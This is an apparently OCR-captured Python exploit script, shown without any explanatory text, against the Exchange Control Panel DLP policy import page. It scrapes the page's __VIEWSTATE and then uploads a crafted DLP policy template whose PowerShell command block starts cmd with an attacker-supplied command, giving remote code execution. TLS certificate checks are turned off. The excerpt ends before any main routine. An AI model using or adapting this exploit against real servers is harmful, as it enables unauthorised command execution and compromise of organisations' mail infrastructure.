     import re
    import sys
    import random
    import string
    import urllib3
    import requests

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


    def random_string(str_len=8):
        letters = string.ascii_lowercase
        return ''.join(random.choice(letters) for i in range(str_len))


    def get_xml(c):
        return """<?xml version="1.0" encoding="UTF-8"?>
    <dlpPolicyTemplates>
      <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
        <contentVersion>4</contentVersion>
        <publisherName>si</publisherName>
        <name>
          <localizedString lang="en"></localizedString>
        </name>
        <description>
          <localizedString lang="en"></localizedString>
        </description>
        <keywords></keywords>
        <ruleParameters></ruleParameters>
        <policyCommands>
          <commandBlock>
            <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
          </commandBlock>
        </policyCommands>
        <policyCommandsResources></policyCommandsResources>
      </dlpPolicyTemplate>
    </dlpPolicyTemplates>""" % c


    def trigger_rce(t, s, vs, cmd):
        f = {
            '__VIEWSTATE': (None, vs),
            'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
            'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
            'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
        }
        r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
        assert r.status_code == 200, "(-) failed to trigger rce!"


    def leak_viewstate(t, s):
        r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
        match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
        assert match != None, "(-) couldn't leak the __viewstate!"
        return match.group(1)
